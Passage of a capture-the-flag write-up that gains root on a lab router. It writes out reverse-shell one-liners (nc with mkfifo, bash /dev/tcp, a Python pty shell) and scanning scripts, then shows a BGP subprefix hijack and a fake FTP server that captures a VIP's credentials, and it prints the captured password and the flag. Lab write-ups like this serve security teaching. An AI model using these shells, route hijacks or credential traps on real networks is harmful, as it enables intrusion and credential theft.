# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/10 * * * * /opt/restore.sh
# cat /opt/restore.sh
[+] Running command: cat /opt/restore.sh
#!/bin/sh
systemctl stop quagga
killall vtysh
cp /etc/quagga/zebra.conf.orig /etc/quagga/zebra.conf
cp /etc/quagga/bgpd.conf.orig /etc/quagga/bgpd.conf
systemctl start quagga
```

From this, we can assume that the `.sav` files are the **known good** versions and we are likely meant to abuse our `root` access to change the `.orig` files in order to abuse these services? If we look at these 2 files for `bgpd` and `zebra` we see quite a bit of routing going on. Lets enumerate the networking on this device more:

```bash
# ifconfig
[+] Running command: ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:d9:04:ea
          inet addr:10.99.64.2  Bcast:10.99.64.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fed9:4ea/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:88 errors:0 dropped:0 overruns:0 frame:0
          TX packets:31 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:8285 (8.2 KB)  TX bytes:4963 (4.9 KB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:8a:f2:4f
          inet addr:10.78.10.1  Bcast:10.78.10.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe8a:f24f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:46 errors:0 dropped:0 overruns:0 frame:0
          TX packets:27 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3698 (3.6 KB)  TX bytes:2329 (2.3 KB)

eth2      Link encap:Ethernet  HWaddr 00:16:3e:20:98:df
          inet addr:10.78.11.1  Bcast:10.78.11.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe20:98df/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:45 errors:0 dropped:0 overruns:0 frame:0
          TX packets:25 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3736 (3.7 KB)  TX bytes:2197 (2.1 KB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:176 errors:0 dropped:0 overruns:0 frame:0
          TX packets:176 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:14328 (14.3 KB)  TX bytes:14328 (14.3 KB)

# route -n
[+] Running command: route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.99.64.1      0.0.0.0         UG    0      0        0 eth0
10.78.10.0      0.0.0.0         255.255.255.0   U     0      0        0 eth1
10.78.11.0      0.0.0.0         255.255.255.0   U     0      0        0 eth2
10.99.64.0      0.0.0.0         255.255.255.0   U     0      0        0 eth0
10.100.10.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.11.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.12.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.13.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.14.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.15.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.16.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.17.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.18.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.19.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.20.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.120.10.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.11.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.12.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.13.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.14.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.15.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.16.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.17.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.18.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.19.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.20.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
[+] Running command: arp -a
? (10.78.10.2) at 00:16:3e:5b:49:a9 [ether] on eth1
? (10.99.64.251) at 00:16:3e:f3:92:14 [ether] on eth0
? (10.78.11.2) at 00:16:3e:c4:fa:83 [ether] on eth2
```

Okay, things getting more clear. There are other networks directly connected on `eth1` and `eth2`. Ill bet our `root.txt` is on another network. This ties back into that weird networking document we found under `/docs` in `nikito`. Lets scan these other networks real quick and see what is alive. 

Before we start enumerating the network, we need to upgrade our shell. Lets get a reverse shell going from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet, and  it looks like there is a working netcat on the system too:

```bash
# which nc
[+] Running command: which nc
/bin/nc
```

In one tab run the following `nc -nvlp <PORT>`, and on the host, run the following `rm /tmp/fu;mkfifo /tmp/fu;cat /tmp/fu|/bin/bash -i 2>&1|nc <IP> <PORT> >/tmp/fu` using our python exploit shell. Now we have an acutal shell. We could have alwo used the following: `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`. We could also have used the following python script since there is python:

```python
import os
import pty
import socket

lhost = "x.x.x.x" # XXX: CHANGEME
lport = 1337 # XXX: CHANGEME

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()
	
if __name__ == "__main__":
    main()
```

Here is our bind shell and connection:

```bash
root@kali:~/Desktop/10.10.10.105# nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.13.199] from (UNKNOWN) [10.10.10.105] 44728
bash: cannot set terminal process group (1191): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# whoami
whoami
root
root@r1:~#
```

Alright, lets scan those other networks. Here is our script:

```bash
#!/bin/bash
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.10.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.11.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.12.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.13.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.14.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.15.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.16.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.17.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.18.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.19.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.20.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.10.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.11.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.12.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.13.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.14.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.15.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.16.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.17.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.18.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.19.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.20.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
```

If we copy this script over to the host in our elevated shell using `vi`, `chmod +x` it, and then run it, we get the following:

```bash
root@r1:~# chmod +x s.sh
chmod +x s.sh
root@r1:~# ./s.sh
./s.sh
root@r1:~# cat /tmp/fu.txt
cat /tmp/fu.txt
10.120.15.1
10.120.15.10
root@r1:~# 
```

Okay, so we don't have `nmap` on this system so maybe there is something this host (`10.120.15.10`) is saying over and over again that we can take advantage of to gain access to it? Lets scan the host `10.120.15.10` for open ports with the following python script:

```python
import sys
import socket
import multiprocessing.dummy

NUM_THREADS = 30
TIMEOUT = 0.5

def worker(port):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  socket.setdefaulttimeout(TIMEOUT)
  r = s.connect_ex((sys.argv[1], port))
  s.close()
  if r == 0:
    return '[*] Port {}: Open'.format(port)

pool = multiprocessing.dummy.Pool(NUM_THREADS)
r = pool.map(worker, [x for x in range(int(sys.argv[2]))])
pool.close()
pool.join()

for n in r:
  if n:
    print(n)
```

When we run this script, we get the following:

```bash
root@r1:~# python3 scan.py 10.120.15.10 3000
python3 scan.py 10.120.15.10 3000
[*] Port 21: Open
[*] Port 22: Open
[*] Port 53: Open
root@r1:~#
```

Hmm, looks like we have FTP open on this server. Also, FTP rings a bell. On the web interface for `http://10.10.10.105` under the `tickets` tab after logging in as `admin`, we see the following ticket #6:

> Rx / CastCom. IP Engineering team from one of our upstream ISP called to report a problem with some of their routes being leaked again due to a misconfiguration on our end. Update 2018/06/13: Pb solved: Junior Net Engineer Mike D. was terminated yesterday. Updated: 2018/06/15: CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network, investigating... Updated 2018/06/16: No prbl. found, suspect they had stuck routes after the leak and cleared them manually. 

Okay, now this makes sense. There is an important person trying to login to an FTP server in the `10.120.15.0/24` network which is likely the `10.120.15.10` host we just scanned. We have root access to one of the BGP routers and can change the advertised networks to redirect this VIP login through our router in order to capture the credentials for this important user. Then, with these credentials, we will be able to login to the real server and probably find our `root.txt`.

## Root, But For Real This Time:

First we need to figure out how to modify the quagga service to advertise our new route. Here are some good BGP hacking sources:

- https://github.com/mininet/mininet/wiki/BGP-Path-Hijacking-Attack-Demo
- https://www.isi.deterlab.net/file.php?file=/share/shared/BGPhijacking

The idea is to simulate a subprefix hijacking attack. To test that we have this working, we try and intercept the connection from the client. To do so, we edit the routing to allow for `10.120.15.0/28` (a subnet of `10.15.120.0/24` that includes `10.120.15.10`) to be routed through our ASN we own. This is done by using the `vtysh` service (we also remove the cronjob for `/opt/restore.sh` first in order to prevent anything restarting our efforts):

```bash
root@r1:~# crontab -r 
root@r1:~# vtysh 
vtysh 

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# configure terminal
configure terminal
r1(config)# router bgp 100
router bgp 100
r1(config-router)# network 10.120.15.0/28
network 10.120.15.0/28
r1(config-router)# end
end
r1# exit
exit
root@r1:~# vtysh -c "show ip bgp"
vtysh -c "show ip bgp"
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    0.0.0.0                  0         32768 ?
*> 10.78.11.0/24    0.0.0.0                  0         32768 ?
*> 10.99.64.0/24    0.0.0.0                  0         32768 ?
*> 10.100.10.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.11.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.12.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.13.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.14.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.15.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.16.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.17.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.18.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.19.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.20.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.101.8.0/21    0.0.0.0                  0         32768 i
*> 10.101.16.0/21   0.0.0.0                  0         32768 i
*  10.120.10.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.11.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.12.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.13.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.14.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*> 10.120.15.0/28   0.0.0.0                  0         32768 i
*  10.120.16.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.17.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.18.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.19.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
*  10.120.20.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i

Total number of prefixes 28
root@r1:~#
```

Here we see we hijacked the network `10.120.15.0/28` network. Now we try and see if we are receiving connections (remember the `10.120.0.0/16` network is normally found via `eth2`):

```bash
root@r1:~# timeout 900 tcpdump -i eth2 -w e.pcap
timeout 900 tcpdump -i eth2 -w e.pcap
tcpdump: listening on eth2, link-type EN10MB (Ethernet), capture size 262144 bytes
594 packets captured
594 packets received by filter
0 packets dropped by kernel
root@r1:~# ls -lah
ls -lah
total 76K
drwx------ 1 root root  218 Mar 12 03:51 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3.1K Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
-rw-r--r-- 1 root root  48K Mar 12 04:03 e.pcap
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5.3K Mar 12 03:51 .viminfo
```

 To get this pcap back to our host, we base64 encode the files and decode them locally with a simple copy and paste.

```bash
root@r1:~# which base64
which base64
/usr/bin/base64
root@r1:~# base64 --help
base64 --help
Usage: base64 [OPTION]... [FILE]
Base64 encode or decode FILE, or standard input, to standard output.

With no FILE, or when FILE is -, read standard input.

Mandatory arguments to long options are mandatory for short options too.
  -d, --decode          decode data
  -i, --ignore-garbage  when decoding, ignore non-alphabet characters
  -w, --wrap=COLS       wrap encoded lines after COLS character (default 76).
                          Use 0 to disable line wrapping

      --help     display this help and exit
      --version  output version information and exit

The data are encoded as described for the base64 alphabet in RFC 4648.
When decoding, the input may contain newlines in addition to the bytes of
the formal base64 alphabet.  Use --ignore-garbage to attempt to recover
from any other non-alphabet bytes in the encoded stream.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/base64>
or available locally via: info '(coreutils) base64 invocation'
root@r1:~# base64 eth2.pcap
base64 eth1.pcap
1MOyoQIABAAAAAAAAAAAAP//AAABAAAA7ydqXCtoDQBVAAAAVQAAAAAWPltJqQAWPoryTwgARcAA
... (removed)
XFEqAAAqAAAAKgAAAAAWPoryTwAWPltJqQgGAAEIAAYEAAIAFj5bSakKTgoCABY+ivJPCk4KAQ==
root@r1:~# 
```

Now we analyze on our host by decoding:

```bash
root@kali:~/Desktop/10.10.10.105# vim eth2.b64
root@kali:~/Desktop/10.10.10.105# base64 -d eth2.b64 > eth2.pcap
root@kali:~/Desktop/10.10.10.105# wireshark eth2.pcap
```



Here we see a connection from `10.78.10.2` to `10.120.15.10`, which means the connection is comming from `eth1`. What we have done so far is hijack the route for the `10.120.15.0/28` network using subprefix hijacking. This allows for our captured ASN to own this subnet of the greater `/24` network. Now we need to capture the credentials a simple ftp server will do the trick:

```python
import os
import time
import random
import socket
import string
import logging
import threading

PORT = 21
HOST = '10.120.15.10'
LOG_FILE = '{0}.txt'.format(''.join(random.choice(string.ascii_lowercase) for i in range(5)))

class Thread(threading.Thread):

  def __init__(self, conn, addr):
    self.s = conn
    logging.info('connection from {0}'.format(addr))
    threading.Thread.__init__(self)

  def run(self):
    self.s.send('220 OK.\r\n'.encode())
    while True:
      cmd = self.s.recv(256)
      if not cmd:
        break
      else:
        logging.info('Recieved: {0}'.format(cmd))
        try:
          c = cmd[:4].strip().upper().decode()
          if c == 'USER':
            self.s.send('331\r\n'.encode())
          elif c == 'PASS':
            self.s.send('230\r\n'.encode())
          else:
            return
        except Exception as e:
          logging.debug(e)
          self.s.send('500\r\n'.encode())

class Server(threading.Thread):
  def __init__(self):
    self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.s.bind((HOST, PORT))
    threading.Thread.__init__(self)

  def run(self):
    self.s.listen(5)
    logging.info('listening on {0}'.format(self.s.getsockname()))
    while True:
      conn, addr = self.s.accept()
      t = Thread(conn, addr)
      t.daemon = True
      t.start()

  def stop(self):
    self.s.close()

if __name__=='__main__':
  logging.basicConfig(filename=LOG_FILE,
                      filemode='w+',
                      format='[%(process)d][%(levelname)s][%(asctime)s] %(message)s',
                      datefmt='%d-%b-%y %H:%M:%S',
                      level=logging.DEBUG)
  ftp = Server()
  ftp.daemon = True
  ftp.start()
  input('Enter to end...\n')
  ftp.stop()
```

To make this work we need to change the configuration of `eth2` to receive connections and then run our ftp server (named `f.py`) to listen on this `eth2` interface:

```bash
root@r1:~# ifconfig eth2 10.120.15.10 netmask 255.255.255.0
ifconfig eth2 10.120.15.10 netmask 255.255.255.0
root@r1:~# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:d9:04:ea  
          inet addr:10.99.64.2  Bcast:10.99.64.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fed9:4ea/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2739 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2477 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:401172 (401.1 KB)  TX bytes:681111 (681.1 KB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:8a:f2:4f  
          inet addr:10.78.10.1  Bcast:10.78.10.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe8a:f24f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:321 errors:0 dropped:0 overruns:0 frame:0
          TX packets:340 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:22958 (22.9 KB)  TX bytes:25081 (25.0 KB)

eth2      Link encap:Ethernet  HWaddr 00:16:3e:20:98:df  
          inet addr:10.120.15.10  Bcast:10.120.15.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe20:98df/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:380 errors:0 dropped:0 overruns:0 frame:0
          TX packets:320 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:26276 (26.2 KB)  TX bytes:24048 (24.0 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:206 errors:0 dropped:0 overruns:0 frame:0
          TX packets:206 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:16450 (16.4 KB)  TX bytes:16450 (16.4 KB)

root@r1:~# python3 f.py
python3 f.py
Enter to end...

```

In another shell on the host, we check for the connection:

```bash
root@r1:~# ls -lah
ls -lah
total 36K
drwx------ 1 root root  268 Mar 12 03:35 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3.1K Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
-rw-r--r-- 1 root root 1.8K Mar 12 03:18 f.py
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5.2K Mar 12 03:24 .viminfo
-rw-r--r-- 1 root root  354 Mar 12 03:35 wmmfc.txt
root@r1:~# cat wmmfc.txt
cat wmmfc.txt
[root][5512][INFO][12-Mar-19 03:33:19] listening on ('10.120.15.10', 21)
[root][5512][INFO][12-Mar-19 03:35:02] connection from ('10.78.10.2', 53944)
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'USER root\r\n'
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'PASS BGPtelc0rout1ng\r\n'
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'SYST\r\n'
root@r1:~#
```

BAMN! we got the credentials! now we need to login to the host directly. first we need to undo our changes to the network (run the cronjob, reset the `eth2` interface, and restart networking):

```bash
root@r1:~# ifconfig eth2 10.78.11.1 netmask 255.255.255.0
ifconfig eth2 10.78.11.1 netmask 255.255.255.0
root@r1:~# echo /opt/restore.sh | /bin/bash
echo /opt/restore.sh | /bin/bash
root@r1:~# systemctl restart networking
systemctl restart networking
root@r1:~#
```

Now we login to the server directly. Here we are using FTP in passive mode. here is a description of the transaction https://slacksite.com/other/ftp.html:

```bash
root@r1:~# nc 10.120.15.10 21
nc 10.120.15.10 21
220 (vsFTPd 3.0.3)
USER root
331 Please specify the password.
PASS BGPtelc0rout1ng
230 Login successful.
SYST
215 UNIX Type: L8
PASV
227 Entering Passive Mode (10,120,15,10,88,145).
HELP
214-The following commands are recognized.
 ABOR ACCT ALLO APPE CDUP CWD  DELE EPRT EPSV FEAT HELP LIST MDTM MKD
 MODE NLST NOOP OPTS PASS PASV PORT PWD  QUIT REIN REST RETR RMD  RNFR
 RNTO SITE SIZE SMNT STAT STOR STOU STRU SYST TYPE USER XCUP XCWD XMKD
 XPWD XRMD
214 Help OK.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,120,15,10,24,96).
RETR root.txt
150 Opening BINARY mode data connection for root.txt (33 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
root@r1:~#
```

For each `PASV` command, we get back the IP and the port to connect on. For the above 2 `PASV` commands we receive the following:

```
(10,120,15,10,88,145)
(10,120,15,10,24,96)
```

This means we need to connect to `10.120.15.10` on 22673 and 6240. For example, in the first `PASV` command, 88 and 145 help us identify which port to connect to.  Multiply the first by 256 and add it to the second. So, 88 * 256 + 145 = 22673.

Here is the result of our conections in another shell:

```bash
root@r1:~# nc 10.120.15.10 22673
nc 10.120.15.10 22673
-r--------    1 0        0              33 Jul 01  2018 root.txt
-rw-------    1 0        0              33 Mar 12 04:41 secretdata.txt
root@r1:~# nc 10.120.15.10 6240
nc 10.120.15.10 6240
2832e552061532250ac2a21478fd4866
root@r1:~#
```

And thats root!